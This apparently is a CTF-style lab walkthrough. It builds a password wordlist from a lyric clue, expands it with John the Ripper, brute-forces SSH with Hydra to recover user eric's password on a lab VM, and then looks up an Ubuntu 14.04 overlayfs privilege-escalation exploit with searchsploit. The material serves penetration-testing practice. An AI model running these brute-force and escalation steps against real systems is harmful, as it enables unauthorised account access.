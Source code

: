 ```
They call the Rising Sun,
```
suppose it's the password, try it:
```
therisingsun
risingsun
rising sun
the rising sun
houseoftherisingsun
house of the rising sun
```
Use John to generate password candidates
```
john - a tool to find weak passwords of your users
john --wordlist=passlist --rules --stdout > passcandi
```
--rules[=SECTION[,..]]     enable word mangling rules  
--stdout[=LENGTH]          just output candidate passwords [cut at LENGTH]  
output candidates to file  

then use hydra to crack
```
└─$ hydra -P passcandi -l eric 192.168.119.133 ssh                                                           255 ⨯
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-03-10 22:24:48
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 156 login tries (l:1/p:156), ~10 tries per task
[DATA] attacking ssh://192.168.119.133:22/
[22][ssh] host: 192.168.119.133   login: eric   password: therisingsun
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 2 final worker threads did not complete until end.
[ERROR] 2 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-03-10 22:24:51
```
-l LOGIN or -L FILE  login with LOGIN name, or load several logins from FILE  
-p PASS  or -P FILE  try password PASS, or load several passwords from FILE  

find password: `therisingsun`
```
ssh eric@192.168.119.133
eric@analoguepond:~$ sudo -v
sudo: unable to resolve host analoguepond
Sorry, user eric may not run sudo on analoguepond.
```
not a sudo user
```
eric@analoguepond:~$ uname -a
Linux analoguepond 3.19.0-25-generic #26~14.04.1-Ubuntu SMP Fri Jul 24 21:16:20 UTC 2015 x86_64 x86_64 x86_64 GNU/Linux

searchsploit ubuntu 14.04
found:
'overlayfs' Local Privilege Escalation 
```
https://www.exploit-db.com/exploits/39166  
